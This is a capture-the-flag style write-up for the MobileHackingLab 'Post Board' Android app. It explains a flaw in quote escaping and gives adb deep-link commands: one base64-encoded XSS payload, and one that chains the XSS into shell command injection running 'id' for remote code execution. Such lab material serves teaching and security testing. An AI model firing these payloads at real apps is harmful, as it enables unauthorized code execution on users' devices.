




# MobileHackingLab - Post Board

## Static Analysis

Analyzing the `MainActivity` class, I noticed that user untrusted input is insufficiently sanitized; an attacker can simply provide an already escaped single quote (`\'` ), nullifying the escape performed at line 66.



Following an example of XSS payload:

```shell
adb shell am start -n 'com.mobilehackinglab.postboard/.MainActivity' -a 'android.intent.action.VIEW' -d "postboard://postmessage/$(echo "\');alert(\"xss\");//" | base64 )"  
```



The class `WebAppInterfaces` provides another  method, `postCowsayMessage`, which invokes the `runCowsay` function from the `CowsayUtil`; this code uses  an unsanitized input to run a shell command:



An attacker can perform a command injection attack with a payload similar to the following, eventually achieving an **RCE**:

```shell
adb shell am start -n 'com.mobilehackinglab.postboard/.MainActivity' -a 'android.intent.action.VIEW' -d "postboard://postmessage/$(echo "\');WebAppInterface.postCowsayMessage(\"; id\");//" | base64 )"  
```

